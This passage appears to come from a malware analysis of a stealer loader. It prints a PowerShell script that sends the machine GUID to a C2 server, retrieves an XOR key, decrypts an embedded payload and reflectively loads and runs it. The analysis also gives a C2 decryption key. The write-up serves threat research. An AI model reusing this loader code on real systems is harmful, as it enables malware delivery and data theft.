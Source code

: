# Download and Execution of the Stealer
sd4.ps1 and sd2.ps1 (described before) are two versions of the same PowerShell script used to run the stealer payload. These scripts perform the following actions:

* It initializes a byte array with an encrypted payload
* It makes a request to the C2, sending the Machine GUID and a secondary ID
* It retrieves an XOR key, which is subsequently used to XOR decrypt the encrypted byte array
* It reflectively loads the decrypted payload
* It calls the Invoke method on the entry point of the decrypted payload, using an array of strings as parameters. These parameters include the last 2 tokenized strings downloaded from the C2 (screenshot below)

```powershell
[byte[]] $bindata = 0x09, 0x12, 0xd9, 0x38, 0x30, 0x6c, 0x33, 0x6b, 0x31, 0x6c, 0x48, 0x49, 0xb7, 0xae, 0x79, 0x61, 0x88, 0x6b, 0x4e, 0x75, 0x44, 0x48, 0x49, 0x38, 0x73, 0x6c, 0x33, 0x6b, 0x35, 0x6c, 0x48, 
#redacted for brevity, complete blob here: https://gist.github.com/dmpdump/585978dee25a63dde0a37cd31323b17e

0x30, 0x6b, 0x4e, 0x75, 0x44, 0x48, 0x49, 0x38, 0x33, 0x6c, 0x33, 0x6b, 0x35, 0x6c, 0x48,0x49, 0x48, 0x51, 0x79, 0x61, 0x30, 0x6b, 0x4e, 0x75, 0x44, 0x48, 0x49, 0x38, 0x33,
0x6c, 0x33, 0x6b, 0x35, 0x6c, 0x48, 0x49, 0x48, 0x51, 0x79, 0x61, 0x30, 0x6b, 0x4e, 0x75

# [Net.ServicePointManager]::SecurityProtocol +='tls12'
$guid = (Get-ItemProperty -Path HKLM:\SOFTWARE\Microsoft\Cryptography).MachineGuid
$cfb = (new-object net.webclient).downloadstring("http://79.124.78[.]109/index.php?id=$guid&subid=zweyWGzf").Split('|')
$k = $cfb[0];

for ($i = 0; $i -lt $bindata.Length ; ++$i)
{
	$bindata[$i] = $bindata[$i] -bxor $k[$i % $k.Length]
}

$bf = [System.Reflection.BindingFlags]::NonPublic -bor [System.Reflection.BindingFlags]::Static
$typee = [System.Type]::GetType("System.Reflection.Assembly")
$mtd = $typee.GetMethod("Load", [Type[]]@([byte[]]))

$sm = $mtd.Invoke($null, @(,$bindata))
$ep = $sm.EntryPoint


$ep.Invoke($null, (, [string[]] ($cfb[1], $cfb[2], $cfb[3])))
```
The response from the C2 is once again tokenized with pipes, using DHI83l3k5lHIHQya0kNu as the decryption key.

![sshot](/assets/images/koiloader/c2response.png)
